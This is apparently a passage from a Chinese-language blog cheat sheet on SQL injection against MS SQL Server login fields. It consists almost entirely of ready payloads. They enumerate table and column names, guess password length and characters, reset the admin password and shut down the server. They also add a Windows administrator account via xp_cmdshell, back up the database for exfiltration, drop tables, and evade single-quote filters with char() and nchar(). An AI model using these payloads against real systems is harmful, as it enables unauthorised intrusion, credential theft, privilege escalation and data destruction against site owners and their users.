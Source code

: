 &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; admin'or 0&gt;(select count(*) from [XXX]) --

&nbsp;&nbsp;&nbsp; 更狠的方法直接取表名：

&nbsp;&nbsp;&nbsp; admin' and (Select Top 1 name from sysobjects where xtype='U')&gt;0&nbsp;&nbsp; --

4. 猜列名

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; admin'and 0&lt; (select count(XXX) from [Users]) --

&nbsp;&nbsp;&nbsp; 再来狠的取列名：

&nbsp;&nbsp;&nbsp; admin' and (Select top 1 col_name(object_id('Users'), 3) from [Users])&gt;0&nbsp;&nbsp; --

5. 猜密码长度

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; admin'and 1=(select count(*) from [Users] where len(Password)&lt;XXX) --

6. 猜密码

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; admin'and 1=(select count(*) from [Users] where left(Password,2)='XX') --

----------------------------------------------------------------------------------------------

在探测出了表名和列表的时候，可以使用终极武器，直接修改admin的密码，或者做更加恶劣的破坏行为：

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; admin';update [Users] set Password='123' where UserName='admin' --

----------------------------------------------------------------------------------------------

其他恶劣行为：

1. 直接关闭偶的SQL服务

&nbsp;&nbsp;&nbsp; admin';shutdown --

2. 如果使用sa用户并可能遭受的攻击：在偶机器上添加用户，并加入某个组织：

&nbsp;&nbsp;&nbsp; admin';exec master..xp_cmdshell "net user name password /add" --

&nbsp;&nbsp;&nbsp; admin';exec master..xp_cmdshell "net localgroup name administrators /add" --

3. 直接备份数据库，然后下载下来，非常恶劣，建议不要对我使用。

&nbsp;&nbsp;&nbsp; admin';backup database Test to disk='d:"1.db'--

4. 直接删表，慎用啊

&nbsp;&nbsp;&nbsp; admin';drop table abc --

----------------------------------------------------------------------------------------------

其他经验总结：

1. 绕过单引号过滤

&nbsp;&nbsp;&nbsp; where xtype='U'&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; ===&gt;&nbsp;&nbsp;&nbsp; where xtype=char(85)

&nbsp;&nbsp;&nbsp; where name='用户'&nbsp;&nbsp;&nbsp; ===&gt;&nbsp;&nbsp;&nbsp; where name=nchar(29992)+nchar(25143)
